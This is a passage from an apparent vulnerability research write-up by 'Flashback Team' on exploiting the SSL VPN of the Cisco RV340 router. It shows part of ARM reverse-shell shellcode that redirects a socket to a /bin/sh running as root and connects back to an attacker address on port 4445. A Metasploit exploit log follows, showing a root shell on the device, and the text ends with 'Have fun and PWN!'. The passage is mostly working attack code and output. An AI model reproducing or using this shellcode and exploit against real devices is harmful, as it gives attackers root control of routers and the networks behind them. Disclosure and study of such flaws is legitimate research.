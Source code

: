 ```nasm

// dup2(sockfd, 0)
 mov   r7, #63          // r7 = 63 (dup2)
 mov   r0, r4           // r4 is the saved sockfd
 sub   r1, r1           // r1 = 0 (stdin)
 svc   #1
// dup2(sockfd, 1)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #1           // r1 = 1 (stdout)
 svc   #1
// dup2(sockfd, 2)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #2           // r1 = 2 (stderr)
 svc   #1

// execve("/bin/sh", 0, 0)
 adr   r0, binsh
 sub   r2, r2
 sub   r1, r1
 strb  r2, [r0, #7]
 push  {r0, r2}
 mov   r1, sp
 cpy   r2, r1
 mov   r7, #11          // r7 = 11 (execve)
 svc   #1

 eor  r7, r7, r7

struct:
.ascii "\x02\xff"       // AF_INET 0xff will be NULLed
.ascii "\x11\x5d"       // port number 4445
.byte 5,5,5,1           // IP Address
binsh:
.ascii "/bin/shX"
```

When the shellcode executes it will create a TCP socket listening at `5.5.5.1:4445` and duplicate `stdin, stout, stderr` to that socket file descriptor. After receiving a connection, an `execve()` syscall is called that spawns a `/bin/sh` (`busybox sh`) and we can enjoy our beautiful `root` shell!

## Exploit log

```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux

```

Have fun and PWN!

~ Flashback Team
